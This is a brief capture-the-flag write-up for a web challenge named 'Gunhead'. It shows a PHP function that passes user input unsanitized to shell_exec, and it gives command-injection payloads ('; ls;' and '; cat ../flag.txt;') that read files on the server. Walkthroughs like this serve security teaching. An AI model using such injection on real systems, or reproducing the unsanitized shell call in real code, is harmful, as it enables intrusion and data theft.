 # Gunhead (very easy)
## Description
During Pandora's training, the Gunhead AI combat robot had been tampered with and was now malfunctioning, causing it to become uncontrollable. With the situation escalating rapidly, Pandora used her hacking skills to infiltrate the managing system of Gunhead and urgently needs to take it down.

## Initial Thoughts
Looking at the landing page there isn't much going on. There are 3 options on the panel.
1. Status
2. Needs 
3. Commamd (interesting)
Taking a look at command I see that we are able to ping devices.

## Close look at ping command
In the source code I see we can make a POST request to /api/ping. All the application does is ensure its in a readable format (json).

From there it gets directly passed to this function and we see this comment.
```
public function getOutput()
    {
        # Do I need to sanitize user input before passing it to shell_exec?
        return shell_exec('ping -c 3 '.$this->ip);
    }
```

## Payload
I check out the Command feature and try to add another command at the end.
```
PING 1 (0.0.0.1): 56 data bytes
Router.php
controllers
index.php
models
static
views
> /ping 1; ls;
```
and it works!

All it took from there was
`/ping 1; cat ../flag.txt;`
To get the flag